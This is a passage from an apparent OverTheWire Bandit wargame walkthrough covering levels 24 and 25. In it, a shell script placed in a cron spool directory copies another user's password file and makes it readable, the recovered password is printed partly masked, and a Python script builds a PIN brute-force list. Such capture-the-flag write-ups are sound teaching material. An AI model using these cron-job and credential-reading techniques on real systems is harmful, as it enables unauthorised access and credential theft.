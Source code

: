 The script looks like this : 
```bash
bandit23@bandit:/tmp/test1234$ cat shell 
#!/bin/bash

cp /etc/bandit_pass/bandit24 /tmp/test1234/passwd
chmod 777 /tmp/test1234/passwd
touch /tmp/test1234/pwned.txt
bandit23@bandit:/tmp/test1234$
```

Move the script in ``/var/spool/bandit24/foo/`` and wait.
```bash
bandit23@bandit:/tmp/test1234$ ls
passwd  pwned.txt  shell
bandit23@bandit:/tmp/test1234$ cat passwd 
VAfGXJ1P---------8p759leLZ9GGar
bandit23@bandit:/tmp/test1234$
```

:warning: *Don't forget to change permissions on your ``/tmp`` folder !* 


It works ! 

<br>

:closed_lock_with_key: Connect with ``bandit24`` user and password found.

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Username : ``bandit24``

Password  : ``VAfGXJ1PB---------jI8p759leLZ9GGar``

<br>

## :star2: :star2: :star2: Level 25

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
   You do not need to create new connections each time

<br>

We can't do that manually, so we need to create a file with ``password PIN`` on each line.
I personally used python to create a script which generate 10000 PIN : 
```python
file_path = 'final2.txt'  

with open(file_path, 'w') as file:
    for pin in range(5000, 10000):
        line = 'VAfGXJ1PBS--------8p759leLZ9GGar {:04d}\n'.format(pin)
        file.write(line)

print(f"File '{file_path}' created.")
```
